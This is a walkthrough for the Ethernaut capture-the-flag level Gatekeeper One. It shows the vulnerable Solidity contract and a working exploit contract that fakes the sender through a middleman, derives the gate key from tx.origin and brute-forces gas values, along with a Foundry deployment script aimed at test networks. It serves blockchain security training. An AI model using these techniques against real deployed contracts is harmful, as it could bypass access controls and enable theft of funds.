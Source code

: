 # Level 13 - Gatekeeper 1 ⏺⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/13" %}

### Level Setup

{% hint style="info" %}
Make it past the gatekeeper and register as an entrant to pass this level.

**Things that might help:**

* Remember what you've learned from the Telephone and Token levels.
* You can learn more about the special function `gasleft()`, in Solidity's documentation (see [here](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [here](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/GatekeeperOne.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-13

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-13

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/4dc2126006371c28e6945efa78c79b6a68f96b06/src/Level13.sol" %}

{% code title="src/Level13.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";

// ================================================================
// │                    LEVEL 13 - GATEKEEPER ONE                 │
// ================================================================
contract GatekeeperOneMiddleman {
    function run(address targetContract) public {
        // Gate one is passed just by calling the enter function from this contract
        // causing the tx.origin to be different from the msg.sender

        bool succeeded = false;

        // Gate three requires...
        bytes8 key = bytes8(uint64(uint160(tx.origin)) & 0xffffffff0000ffff);

        uint256 gas = 65782;

        // Gate two requires calculating the gas remaining...
        for (uint256 i = gas - 5052; i < gas + 5052; i++) {
            console.log("Trying gas: ", i);
            (bool success,) = address(targetContract).call{gas: i}(abi.encodeWithSignature("enter(bytes8)", key));
            if (success) {
                succeeded = success;
                break;
            }
        }
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/4dc2126006371c28e6945efa78c79b6a68f96b06/script/Level13.s.sol" %}

{% code title="script/Level13.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

import {GatekeeperOneMiddleman} from "../src/Level13.sol";

// ================================================================
// │                    LEVEL 13 - GATEKEEPER ONE                 │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        GatekeeperOneMiddleman gatekeeperOneMiddleman = new GatekeeperOneMiddleman();
        gatekeeperOneMiddleman.run(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Well done! Next, try your hand with the second gatekeeper...
{% endhint %}

### Notes

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_13_Gatekeeper-One.md" %}

